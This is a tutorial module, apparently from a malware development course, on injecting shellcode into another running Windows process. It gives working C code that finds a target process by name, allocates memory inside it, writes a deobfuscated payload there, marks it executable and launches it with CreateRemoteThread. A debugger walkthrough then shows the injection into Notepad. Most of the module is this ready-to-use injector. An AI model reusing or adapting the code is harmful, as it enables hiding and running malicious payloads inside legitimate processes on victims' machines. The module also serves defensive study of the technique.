 29. Process Injection - Shellcode Injection[**29. Process Injection - Shellcode Injection**](https://maldevacademy.com/modules/29)
=======================================================================================

**Process Injection - Shellcode Injection**
-------------------------------------------

### **Introduction**

This module will be similar to the previous DLL Injection module with minor changes. Shellcode process injection will use almost the same Windows APIs to perform the task:

* [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) - Memory allocation.
* [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) - Write the payload to the remote process.
* [VirtualProtectEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex) - Modifying memory protection.
* [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) - Payload execution via a new thread.

### **Enumerating Processes**

Similarly to the previous module, process injection starts by enumerating the processes. The process enumeration code snippet shown below was already explained in the previous module.


```
BOOL GetRemoteProcessHandle(LPWSTR szProcessName, DWORD* dwProcessId, HANDLE* hProcess) {

	// According to the documentation:
	// Before calling the Process32First function, set this member to sizeof(PROCESSENTRY32).
	// If dwSize is not initialized, Process32First fails.
	PROCESSENTRY32	Proc = {
		.dwSize = sizeof(PROCESSENTRY32)
	};

	HANDLE hSnapShot = NULL;

	// Takes a snapshot of the currently running processes
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
	if (hSnapShot == INVALID_HANDLE_VALUE){
		printf("[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	// Retrieves information about the first process encountered in the snapshot.
	if (!Process32First(hSnapShot, &Proc)) {
		printf("[!] Process32First Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	do {

		WCHAR LowerName[MAX_PATH * 2];

		if (Proc.szExeFile) {
			DWORD	dwSize = lstrlenW(Proc.szExeFile);
			DWORD   i = 0;

			RtlSecureZeroMemory(LowerName, MAX_PATH * 2);

			// Converting each charachter in Proc.szExeFile to a lower case character
			// and saving it in LowerName
			if (dwSize < MAX_PATH * 2) {

				for (; i < dwSize; i++)
					LowerName[i] = (WCHAR)tolower(Proc.szExeFile[i]);

				LowerName[i++] = '\0';
			}
		}

		// If the lowercase'd process name matches the process we're looking for
		if (wcscmp(LowerName, szProcessName) == 0) {
			// Save the PID
			*dwProcessId = Proc.th32ProcessID;
			// Open a handle to the process
			*hProcess    = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
			if (*hProcess == NULL)
				printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());

			break;
		}

	// Retrieves information about the next process recorded the snapshot.
	// While a process still remains in the snapshot, continue looping
	} while (Process32Next(hSnapShot, &Proc));

	// Cleanup
	_EndOfFunction:
		if (hSnapShot != NULL)
			CloseHandle(hSnapShot);
		if (*dwProcessId == NULL || *hProcess == NULL)
			return FALSE;
		return TRUE;
	}

```
### **Shellcode Injection**

To perform shellcode injection the `InjectShellcodeToRemoteProcess` function will be used. The function takes 3 parameters:

1. `hProcess` - A handle to the opened remote process.
2. `pShellcode` - The deobfuscated shellcode's base address and size. The shellcode must be in plaintext before being injected because it cannot be edited once it's in the remote process.
3. `sSizeOfShellcode` - The size of the shellcode.

### **Shellcode Injection - Code Snippet**


```
BOOL InjectShellcodeToRemoteProcess(HANDLE hProcess, PBYTE pShellcode, SIZE_T sSizeOfShellcode) {

	PVOID	pShellcodeAddress              = NULL;

	SIZE_T	sNumberOfBytesWritten          = NULL;
	DWORD	dwOldProtection                = NULL;


	// Allocate memory in the remote process of size sSizeOfShellcode
	pShellcodeAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pShellcodeAddress == NULL) {
		printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("[i] Allocated Memory At : 0x%p \n", pShellcodeAddress);


	printf("[#] Press <Enter> To Write Payload ... ");
	getchar();
	// Write the shellcode in the allocated memory
	if (!WriteProcessMemory(hProcess, pShellcodeAddress, pShellcode, sSizeOfShellcode, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sSizeOfShellcode) {
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("[i] Successfully Written %d Bytes\n", sNumberOfBytesWritten);

	memset(pShellcode, '\0', sSizeOfShellcode);

	// Make the memory region executable
	if (!VirtualProtectEx(hProcess, pShellcodeAddress, sSizeOfShellcode, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtectEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}


	printf("[#] Press <Enter> To Run ... ");
	getchar();
	printf("[i] Executing Payload ... ");
	// Launch the shellcode in a new thread
	if (CreateRemoteThread(hProcess, NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL) {
		printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("[+] DONE !\n");

	return TRUE;
}

```
### **Deallocating Remote Memory**

[VirtualFreeEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualfreeex) is a WinAPI that is used to deallocate previously allocated memory in a remote process. This function should only be called after the payload has fully finished execution otherwise it might free the payload's content and crash the process.


```
BOOL VirtualFreeEx(
  [in] HANDLE hProcess,
  [in] LPVOID lpAddress,
  [in] SIZE_T dwSize,
  [in] DWORD  dwFreeType
);

```
`VirtualFreeEx` takes the same parameter as the `VirtualFree` WinAPI with the only difference being that `VirtualFreeEx` takes an additional parameter (`hProcess`) that specifies the target process where the memory region resides.

### **Debugging**

In this section, the implementation is debugged using the xdbg debugger to further understand what is happening under the hood.

This walkthrough injects shellcode into a Notepad process therefore start by opening up Notepad and attaching the x64 xdbg debugger to it. The image below shows the process has PID `22992`.

[![](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-1.png)](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-1.png)Run `RemoteShellcodeInjection.exe` providing notepad.exe as an argument. The binary will start by searching for the PID of Notepad which should be the same PID shown in the xdbg debugger, which in this case is `22992`.

[![](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-2.png)](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-2.png)Next, the binary will decrypt the payload. Notice that attempting to access the memory address will result in an error. The reason this happens is because the debugger is attached to the `notepad.exe` process whereas the deobfuscation process occurs in the local process which is `RemoteShellcodeInjection.exe`.

[![](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-3.png)](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-3.png)To view the deobfuscated payload, a new instance of xdbg must be opened and attached to the `RemoteShellcodeInjection.exe` process.

[![](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-4.png)](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-4.png)Back to the Notepad debugger instance, the next step is memory allocation. The base address where the payload will be written is `0x0000021700230000`. The debugger shows that the allocated memory region was zeroed out.

[![](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-5.png)](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-5.png)The deobfuscated payload is then written to the allocated memory region in the remote process.

[![](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-6.png)](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-6.png)Analyzing the local process, the payload was successfully zeroed out since it is not required anymore.

[![](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-7.png)](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-7.png)Finally, the payload is executed in the remote process inside of a new thread.

[![](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-8.png)](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-8.png)
